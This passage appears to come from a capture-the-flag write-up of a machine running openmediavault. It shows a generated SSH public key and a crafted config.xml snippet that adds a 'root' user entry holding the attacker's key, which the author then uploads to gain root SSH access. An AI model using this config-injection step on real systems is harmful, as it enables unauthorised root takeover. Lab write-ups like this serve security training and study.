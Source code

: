 ```bash
|.. o +   o   .   |
|.    .  S .      |
|.   E    .       |
| . .             |
|  . .            |
|   .             |
+----[SHA256]-----+
---- BEGIN SSH2 PUBLIC KEY ----
Comment: "3072-bit RSA, converted by openmediavault-webgui@derailed fr"
AAAAB3NzaC1yc2EAAAADAQABAAABgQC9ybH1LZ6C9EgbEtyL5DMllTbvdqBeDrdDo6Vvze
rrALONYvojeCXSNe9FQlYbsTsDdUWVTlFkCMKzqc7CL/5XAwPVnmvp6mC8QNgsNU8V6jc+
sqpFG8nNi0LG65e0wHbIoppQDC0/+XGQtwsSMhXrkY+Q4DRp+pZMm/H/NWLe/GdJoX0cx1
U0ANFatLidwFAck0vU3EZWolNp4TxmbCv7qZVNZPqV4+1B/BWjaDkd4qoq5+GtLq9b9fGI
3bUJpoDtY5G9pB42jcdElv+crKen6CHgdzmMy6L6Z0vkB2upv1tTQ4iFuccD5vJ2XhU720
iZG+iuN01meZehPuUr82ufNHHoiBzCIHWJmHxvD+no9UpL6n9J7iQouopvhkloDkvuo62l
HXH3hIbKeUZ9itsTvD90Wg9PIrKGyKWt+E7aGuNq3uumhPrgq4rk+6p/gXJZGpmPThqkx0
cqgZrLl18SDosRJwhoSseXuoYUxwhgGmHIo6JMuH4giY+hMPEIiIU=
---- END SSH2 PUBLIC KEY ----
openmediavault-webgui@derailed:~$ 

```

We can overwrite the config.xml with one crafted with ssh public key ```id_rsa.pub```!
Note that we need to add the tag because we are specifying a new object than we can upload a new xml with the crafted info like root inside test and refresh the config

```bash
<snippet>

        </user>
        <user>
          <uuid>e3f59fea-4be7-4695-b0d5-560f25072d4a</uuid>
          <name>root</name>
          <email></email>
          <disallowusermod>0</disallowusermod>
          <sshpubkeys>
          <sshpubkey>---- BEGIN SSH2 PUBLIC KEY ----
Comment: "3072-bit RSA, converted by openmediavault-webgui@derailed fr"
AAAAB3NzaC1yc2EAAAADAQABAAABgQC9ybH1LZ6C9EgbEtyL5DMllTbvdqBeDrdDo6Vvze
rrALONYvojeCXSNe9FQlYbsTsDdUWVTlFkCMKzqc7CL/5XAwPVnmvp6mC8QNgsNU8V6jc+
sqpFG8nNi0LG65e0wHbIoppQDC0/+XGQtwsSMhXrkY+Q4DRp+pZMm/H/NWLe/GdJoX0cx1
U0ANFatLidwFAck0vU3EZWolNp4TxmbCv7qZVNZPqV4+1B/BWjaDkd4qoq5+GtLq9b9fGI
3bUJpoDtY5G9pB42jcdElv+crKen6CHgdzmMy6L6Z0vkB2upv1tTQ4iFuccD5vJ2XhU720
iZG+iuN01meZehPuUr82ufNHHoiBzCIHWJmHxvD+no9UpL6n9J7iQouopvhkloDkvuo62l
HXH3hIbKeUZ9itsTvD90Wg9PIrKGyKWt+E7aGuNq3uumhPrgq4rk+6p/gXJZGpmPThqkx0
cqgZrLl18SDosRJwhoSseXuoYUxwhgGmHIo6JMuH4giY+hMPEIiIU=
---- END SSH2 PUBLIC KEY ----</sshpubkey>
          </sshpubkeys>
        </user>
      </users>


<snippet>
```
